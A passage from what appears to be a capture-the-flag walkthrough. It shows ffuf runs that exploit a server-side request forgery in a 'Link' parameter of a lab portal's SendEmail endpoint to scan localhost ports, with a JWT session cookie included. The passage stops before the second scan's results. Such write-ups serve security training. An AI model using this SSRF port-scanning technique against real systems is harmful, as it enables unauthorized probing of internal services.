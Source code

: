 

    oxdf@hacky$ ffuf -d 'Email=0xdf@meddigi.htb&Link=https://127.0.0.1:FUZZ' -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -u 'https://portal.meddigi.htb/Prescriptions/SendEmail' -H 'Content-Type: application/x-www-form-urlencoded' -mc 200 -b "access_token=$token"

            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/

           v2.0.0-dev
    ________________________________________________

     :: Method           : POST
     :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
     :: Data             : Email=0xdf@meddigi.htb&Link=https://127.0.0.1:FUZZ
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200
    ________________________________________________

    :: Progress: [35/35] :: Job [1/1] :: 5 req/sec :: Duration: [0:00:08] :: Errors: 0 ::



On HTTP, it finds 8080:



    oxdf@hacky$ ffuf -d 'Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ' -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -u 'https://portal.meddigi.htb/Prescriptions/SendEmail' -H 'Content-Type: application/x-www-form-urlencoded' -mc 200 -b "access_token=$token"

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v2.0.0-dev
    ________________________________________________

     :: Method           : POST
     :: URL              : https://portal.meddigi.htb/Prescriptions/SendEmail
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Header           : Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjciLCJlbWFpbCI6IjB4ZGYyQG1lZGRpZ2kuaHRiIiwibmJmIjoxNzA5MzIyMzM5LCJleHAiOjE3MDkzMjU5MzksImlhdCI6MTcwOTMyMjMzOSwiaXNzIjoiTWVkRGlnaSIsImF1ZCI6Ik1lZERpZ2lVc2VyIn0.ofzJS2ZE7OOwdsRRZ98daXdA8OkQ3kbEuNYEtRnZLR4
     :: Data             : Email=0xdf@meddigi.htb&Link=http://127.0.0.1:FUZZ
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200
    ________________________________________________
